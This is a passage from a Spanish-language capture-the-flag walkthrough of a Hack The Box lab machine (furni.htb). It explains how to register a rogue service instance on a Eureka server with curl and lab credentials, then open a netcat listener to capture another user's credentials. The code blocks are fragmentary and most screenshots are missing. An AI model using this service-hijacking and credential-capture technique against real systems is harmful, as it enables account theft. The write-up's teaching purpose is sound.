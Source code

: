 ```bash

}'

```

  

la explicación es la siguiente

- `curl -X POST`: Ejecuta una solicitud HTTP POST con curl.
- `http://EurekaSrvr:0scarPWDisTheB3st@furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE`: Esta es la URL de destino con los siguientes componentes:
    - `EurekaSrvr:0scarPWDisTheB3st@`: Credenciales de autenticación (nombre de usuario y contraseña)
    - `furni.htb:8761`: El host y puerto del servidor Eureka
    - `/eureka/apps/USER-MANAGEMENT-SERVICE`: La ruta específica para registrar el servicio
    - ![paste](./images/18.jpeg)

- `-H 'Content-Type: application/json'`: Establece una cabecera HTTP que especifica que el contenido enviado es JSON.
- `-d '...'`: Los datos que se envían en formato JSON, que contienen la información de la instancia:
    - `instanceId`: Identificador único de la instancia
    - `hostName`: El nombre del host (a reemplazar con tu IP)
    - `app`: Nombre de la aplicación
    - `ipAddr`: Dirección IP de la instancia (a reemplazar con tu IP)
    - `vipAddress` y `secureVipAddress`: Direcciones virtuales para el balanceo de carga
    - `status`: Estado de la instancia ("UP" significa que está activa)
    - `port`: Puerto en el que se ejecuta el servicio (8081)
    - `dataCenterInfo`: Información sobre el centro de datos

En pocas palabras estamos redirigiendo los datos a nuestro servidor de atacante

Para eso también nos pondremos en escucha por el puerto que pusimos que es el 8081 

 ```bash
 nc -lvnp 8081
```

 Quedando de la siguiente manera

![paste](./images/19.jpeg)

![paste](./images/20.jpeg)

Obtenemos nuevas credenciales del usuario miranda-wise que si recordáis es un usuario existente en nuestra maquina, lo puedes comprobar en el /etc/passwd

![paste](./images/21.jpeg)
  
# Miranda furni.htb

Estando ahora como el usuario miranda ya podemos ver la primera Flag, que buen hacker eres

![paste](./images/22.jpeg)]

Buscando por rutas comunes logre encontrar en el directorios de /opt el siguiente script de bash el cual no podemos modificar  pero si ver el contenido y también ejecutarlo pero pide un archivo el cual nosotros no podemos crear

![paste](./images/23.jpeg)
```bash
```